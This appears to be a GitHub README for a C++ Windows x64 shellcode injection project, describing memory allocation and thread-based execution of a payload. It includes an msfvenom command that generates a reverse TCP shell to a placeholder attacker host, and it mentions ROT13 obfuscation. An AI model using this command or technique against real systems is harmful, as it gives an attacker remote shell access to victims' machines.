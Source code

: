 # Shellcode Injection - Windows x64


This project demonstrates manual shellcode injection using C++ and Windows API.

## 💻 Features
- Manual shellcode allocation and execution
- Uses VirtualAlloc, RtlCopyMemory, CreateThread
- Tested on Windows 10 x64

## ⚙️ Shellcode
Shellcode generated using `msfvenom`:

````bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP LPORT=PORT -f c
````

> 🔐 Obfuscated with simple ROT13 (optional)

## 🧠 How it Works
1. Allocate memory with `VirtualAlloc`
2. Copy shellcode to allocated region
3. Run with `CreateThread`

## 🖼️ Screenshots
<p align="center>
  ![Injection Demo](screenshot/analysis.png)
</p>


## 📁 File Structure

* `main.cpp` — injection code
* `shellcode.h` — contains unsigned char shellcode array
* `msfvenom_command.txt` — command used for payload

## ⚠️ Disclaimer

This is for **educational** purposes only. Do not use for malicious activity.

